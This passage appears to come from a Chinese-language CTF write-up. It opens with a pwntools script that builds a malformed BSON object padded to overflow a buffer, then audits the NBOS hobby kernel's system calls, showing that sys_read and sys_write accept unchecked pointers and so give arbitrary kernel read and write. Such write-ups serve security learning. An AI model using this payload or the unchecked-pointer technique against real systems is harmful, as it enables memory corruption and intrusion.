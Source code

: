 ```
from pwn import *
import bson

context.arch = 'aarch64'

obj = {
    'CVC':545,
    'MON':1,
    'YR': 2021
}
bs = bson.dumps(obj)

bs = bs[:-1]
bs += b'\x02'
bs += b'CC'
bs += b'\x00'
bs += p32(0x10)
bs += b'A'*(0x60)
bs += b'\x00'
bs += b'\x00'

print(b64e(bs)+' ')
```

[![](https://p0.ssl.qhimg.com/t0187c8dc1237ca64c8.png)](https://p0.ssl.qhimg.com/t0187c8dc1237ca64c8.png)

源码审计
----

内核源码可以从[此处](https://github.com/zhulangpi/NBOS/tree/21864bddac81170159214044c3763eeb7d4a331f)下载

[![](https://p5.ssl.qhimg.com/t01237f107b45d4a645.png)](https://p5.ssl.qhimg.com/t01237f107b45d4a645.png)

下面重点来审系统调用，`include/syscall.h`实现了以下一些系统调用

[![](https://p2.ssl.qhimg.com/t015d7caf24a3b97c33.png)](https://p2.ssl.qhimg.com/t015d7caf24a3b97c33.png)

`sys_read`和`sys_write`的实现，并未对传入的`buf`地址指针做检查，也就是可以 call `sys_read`、`sys_write`在内核空间任意读写

[![](https://p3.ssl.qhimg.com/t01d79f43a30fc23b71.png)](https://p3.ssl.qhimg.com/t01d79f43a30fc23b71.png)

在`init/init_task.c`处调用户态进程

[![](https://p5.ssl.qhimg.com/t0110e621c313c89315.png)](https://p5.ssl.qhimg.com/t0110e621c313c89315.png)

通过 call `sys_execv`系统调用分配进程资源，并装载用户态进程

[![](https://p4.ssl.qhimg.com/t0154d58906b8f564db.png)](https://p4.ssl.qhimg.com/t0154d58906b8f564db.png)

静态分析
----
